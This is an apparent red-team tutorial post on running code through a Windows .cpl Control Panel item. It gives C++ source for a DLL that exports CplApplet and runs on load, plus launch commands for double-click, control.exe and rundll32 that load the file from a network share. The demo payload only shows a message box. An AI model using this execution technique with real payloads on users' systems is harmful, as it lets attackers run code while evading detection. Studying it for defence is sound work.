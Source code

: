 ```yaml
---
layout: post
title: "executing code in control panel item through an exported cplapplet function"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /executing-code-in-control-panel-item-through-an-exported-cplapplet-function/
---
```


---
layout: post
title: "executing code in control panel item through an exported cplapplet function"
date: 2024-06-18
categories: code-execution
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /executing-code-in-control-panel-item-through-an-exported-cplapplet-function/
---

# Executing Code as a Control Panel Item through an Exported Cplapplet Function

This is a quick note that shows how to execute code in a .cpl file, which is a regular DLL file representing a Control Panel item.

The .cpl file needs to export a function `CplApplet` in order to be recognized by Windows as a Control Panel item.

Once the DLL is compiled and renamed to .CPL, it can simply be double clicked and executed like a regular Windows .exe file.

## Code

{% code title="item.cpl" %}
```cpp
// dllmain.cpp : Defines the entry point for the DLL application.
#include "stdafx.h"
#include <Windows.h>

//Cplapplet
extern "C" __declspec(dllexport) LONG Cplapplet(
	HWND hwndCpl,
	UINT msg,
	LPARAM lParam1,
	LPARAM lParam2
)
{
	MessageBoxA(NULL, "Hey there, I am now your control panel item you know.", "Control Panel", 0);
	return 1;
}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
	{
		Cplapplet(NULL, NULL, NULL, NULL);
	}
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
{% endcode %}

Once the DLL is compiled, we can see our exported function `Cplapplet`:

![](<../../.gitbook/assets/image (200).png>)

## Demo

Below shows that double-clicking the .cpl item is enough to launch it:

![](../../.gitbook/assets/cplexecution.gif)

![](<../../.gitbook/assets/image (204).png>)

CPL file can also be launched with `control.exe <pathtothe.cpl>` like so:

![](<../../.gitbook/assets/image (202).png>)

or with rundll32:

{% code title="attacker@target" %}
```
rundll32 shell32, Control_RunDLL \\VBOXSVR\Experiments\cpldoubleclick
\cpldoubleclick\Debug\cpldoubleclick.cpl
```
{% endcode %}

![](<../../.gitbook/assets/image (203).png>)

## References

{% embed url="https://www.fireeye.com/blog/threat-research/2019/10/staying-hidden-on-the-endpoint-evading-detection-with-shellcode.html" %}

{% embed url="https://github.com/fireeye/DueDLLigence/blob/master/DueDLLigence/DueDLLigence.cs" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/shell/using-cplapplet" %}
@spotheplanet
